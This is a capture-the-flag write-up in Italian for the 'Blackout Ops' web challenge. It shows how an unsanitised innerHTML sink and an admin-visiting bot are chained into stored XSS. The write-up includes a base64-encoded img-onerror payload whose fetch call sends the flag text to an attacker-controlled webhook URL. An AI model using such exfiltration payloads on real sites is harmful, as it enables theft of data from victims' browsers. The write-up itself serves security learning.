# Blackout Ops

Scarichiamo e analizziamo il codice sorgente, in questa app node.js, dentro routes/pages.js vediamo che per ottenere la flag dobbiamo entrare nella pagina /admin, ma dobbiamo essere loggati e il nostro ruolo deve essere admin



Dentro graphql c'è la funzione register per registrarci su questo sito. Il nostro ruolo viene impostato a 'user' e verified è falso di default. Non possiamo modificare il ruolo ma dobbiamo verificare il nostro utente con la mutation verifyAccount inviando il nostro inviteCode





Andiamo sul sito, registriamoci e loggiamoci, usiamo sempre burpsuite come proxy per osservare il login ma vediamo che non ci viene fornito l'inviteCode



Una volta nella nostra dashboard possiamo verificare il nostro account, proviamo a generare un nuovo codice e questa volta, nella risposta, lo otteniamo, copiamolo e verifichiamo il nostro utente





Ritorniamo nel codice sorgente, qui non esiste una funzione per modificare il nostro ruolo ad admin ma, in bot.js, troviamo la funzione visitReport che va sulla porta 1337 locale, si logga come admin e poi visita una pagina scelta da noi



Il file config/nginx.conf vediamo che apre la porta 1337 e inoltra le richieste alla porta 3000, questa è la porta sulla quale è in ascolto questa app come si può vedere da app.js. Quindi sappiamo che l'indirizzo 127.0.0.1:1337 è proprio questa app





La funzione visitReport viene chiamata dentro submitIncidentReport che viene usata quando si invia un report dalla dashboard. submitIncidentReport controlla che evidenceUrl inizi con http:// o https:// e senza altri controlli salva tutto nel database, dopo di che chiama visitReport con il nostro url e le credenziali di admin



I cookies hanno il flag httponly impostato a true, quindi non possiamo ottenerlo con del codice javascript.
Guardando la pagina admin.html vediamo che i titoli dei report vengono inseriti tramite innerHTML senza sanitizzazione, questo ci permette di inserire codice html/js arbitrario che verrà eseguito nel browser dell'admin. La flag è dentro l'unico tag h4, possiamo prenderla grazie a questo







Avviamo un server web con webhook.site. Nella form come title mettiamo ``, il base64 sarà `fetch('<webhook-url>/?x='+btoa(document.querySelector('h4').innerText))`. In questo modo il tag img cercherà un'immagine che non esiste e andando in errore farà una fetch al nostro server passandogli la flag in base64. Nel campo evidenceUrl inseriamo 127.0.0.1:1337, che come abbiamo visto è lo stesso sito. Con Graphql ci possono essere dei problemi con alcuni caratteri, come le " e per questo ho codificato tutto in base64





Facciamo il submit della form e in webhook vediamo la richiesta arrivare col base64 della flag, decodifichiamola per vederla in chiaro




